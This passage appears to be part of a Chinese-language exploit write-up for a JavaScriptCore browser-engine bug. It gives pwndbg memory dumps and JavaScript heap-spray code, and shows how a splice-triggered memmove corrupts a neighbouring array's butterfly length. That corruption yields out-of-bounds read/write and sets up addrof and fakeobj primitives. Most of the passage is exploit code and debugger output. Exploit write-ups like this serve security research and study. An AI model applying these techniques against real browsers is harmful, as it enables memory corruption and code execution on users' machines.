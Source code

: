     vector = 0x7fe000287a78
    pwndbg> x/1000gx 0x7fe000287a78
    0x7fe000287a78: 0x00000000badbeef0      0x0000000000000000
    0x7fe000287a88: 0x00000000badbeef0      0x00000000badbeef0
    0x7fe000287a98: 0x00000000badbeef0      0x00000000badbeef0
    //..
    // 其他 object 的 butterfly,  length = 0xa
    0x7fe000287ff8: 0x00000000badbeef0      0x0000000d0000000a
    0x7fe000288008: 0x0000000000001337      0x402abd70a3d70a3d
    0x7fe000288018: 0x402abd70a3d70a3d      0x402abd70a3d70a3d
    // vector + 0x1000
    0x7fe000288a78: 0x0000000000000000      0x0000000d0000000a
    0x7fe000288a88: 0x0000000000001337      0x402abd70a3d70a3d

memmove之后, 可以把其他object 的 `buttefly` 的 length
改了，假如可以找到这个 object， 那么就可以利用这个 object
来构造越界读写了。

    // vector
    0x7fe000287a78: 0x0000000000000000      0x00000000badbeef0
    0x7fe000287a88: 0x00000000badbeef0      0x00000000badbeef0
    // 其他 object 的 butterfly,  length = 0x1337
    0x7fe000287ff8: 0x0000000d0000000a      0x0000000000001337
    0x7fe000288008: 0x402abd70a3d70a3d      0x402abd70a3d70a3d
    // vector + 0x1000
    0x7fe000288a78: 0x0000000d0000000a      0x0000000000001337
    0x7fe000288a88: 0x402abd70a3d70a3d      0x402abd70a3d70a3d

#### addrof 和 fakeobj 构造

首先喷一堆的object， 尝试构造出上面提到的内存布局，length都是 10，
这样新分配的内存就是 `10 * 8 + 0x10 = 0x60`, 就会和新申请的`storage`
分配在十分接近的内存上。 `spray[i]` 和 `spray[i+1]` 会连续分配

    for (let i = 0; i < 0x3000; i += 2) {                                                   
        spray[i]   = [13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37+i];       
        spray[i+1] = [{},{},{},{},{},{},{},{},{},{}];  // fakeobj                              
    }                                                                                       
    for (let i = 0; i < 0x3000; i += 2)                                                     
        spray[i][0] = i2f(0x1337)

然后是 splice(0x1000,0,1) 触发`memmove`, 然后找出那个被改了 size 的
object

    arr.splice(0x1000,0,1);                      

    fake_index=-1;                               
    for(let i=0;i<0x3000;i+=2){                  
        if(spray[i].length!=10){                 
           print("hit: "+i.toString(16));       
           fake_index=i;                        
           break;                               
        }                                        
    }   
    //..spray[i] ArrayWithDouble
    0x7ff000287ff8: 0x00000000badbeef0      0x0000000d0000000a
    0x7ff000288008: 0x0000000000001337      0x402abd70a3d70a3d
    0x7ff000288018: 0x402abd70a3d70a3d      0x402abd70a3d70a3d
    0x7ff000288028: 0x402abd70a3d70a3d      0x402abd70a3d70a3d
    0x7ff000288038: 0x402abd70a3d70a3d      0x402abd70a3d70a3d
    0x7ff000288048: 0x402abd70a3d70a3d      0x40c77caf5c28f5c3
    // spray[i+1], ArrayWithContiguous
    0x7ff000288058: 0x7ff8000000000000      0x7ff8000000000000
    0x7ff000288068: 0x7ff8000000000000      0x0000000d0000000a
    0x7ff000288078: 0x00007fffae25d240      0x00007fffae25d280
    0x7ff000288088: 0x00007fffae25d2c0      0x00007fffae25d300
    0x7ff000288098: 0x00007fffae25d340      0x00007fffae25d380
